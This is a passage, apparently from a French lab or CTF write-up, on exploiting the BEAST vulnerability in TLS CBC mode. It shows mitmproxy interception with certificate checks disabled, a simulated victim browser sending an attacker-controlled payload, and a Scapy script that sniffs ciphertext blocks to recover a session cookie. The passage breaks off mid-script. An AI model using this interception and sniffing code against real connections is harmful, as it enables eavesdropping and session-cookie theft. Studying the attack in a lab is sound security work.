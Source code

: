 L'option `--ssl-insecure` est nécessaire pour désactiver la vérification des certificats, ce qui permet d'intercepter les connexions chiffrées sans rejet par les clients.

### 4.2 Analyse et préparation de l'exploit

Dans notre navigateur victime simulé (`victim_browser.py`), nous envoyons un payload contrôlé pour observer la réponse du serveur à travers mitmproxy:

```python
# Configuration du proxy dans victim_browser.py
proxies = {
    'http': 'http://172.17.0.1:8080',
    'https': 'http://172.17.0.1:8080',
}
session.proxies.update(proxies)

# Payload injecté (contrôlé par l'attaquant)
payload = {
    "attack": "ABCDE"  # contenu contrôlable pour BEAST
}
```

En analysant les requêtes et réponses avec mitmproxy, nous pouvons observer:

1. Notre payload "ABCDE" envoyé vers le serveur cible
2. Le serveur qui renvoie un cookie sensible (par exemple "token=SECRET123456")
3. Ce cookie est ensuite transmis dans les requêtes suivantes

L'objectif est maintenant d'exploiter la vulnérabilité BEAST pour récupérer ce cookie chiffré en utilisant des injections contrôlées et en observant les blocs TLS résultants.

### 4.3 Développement de l'outil d'exploitation

Pour capturer et analyser les blocs CBC, nous utilisons un script Python basé sur la bibliothèque Scapy, qui permet de capturer et analyser le trafic réseau:

```python
# Script de capture des blocs CBC
from scapy.all import sniff, TCP, Raw
from collections import defaultdict
import binascii

# Configuration
TARGET_IP = "37.187.103.134"
TARGET_PORT = 8443
OUTPUT_FILE = "cbc_blocks.txt"

# Utilisé pour éviter les doublons
seen_blocks = set()

def packet_callback(pkt):
    if pkt.haslayer(TCP) and pkt[TCP].dport == TARGET_PORT:
        if pkt.haslayer(Raw):
            ciphertext = pkt[Raw].load.hex()
            first_block = ciphertext[:32]

            print(f"[*] Bloc chiffré: {first_block}...")

            # Détection simple de répétition
            if hasattr(packet_callback, 'last_cipher'):
                if first_block == packet_callback.last_cipher:
                    print("[!] Possible fuite CBC détectée!")

            packet_callback.last_cipher = first_block

            # Écriture dans le fichier si bloc jamais vu
            if first_block not in seen_blocks:
```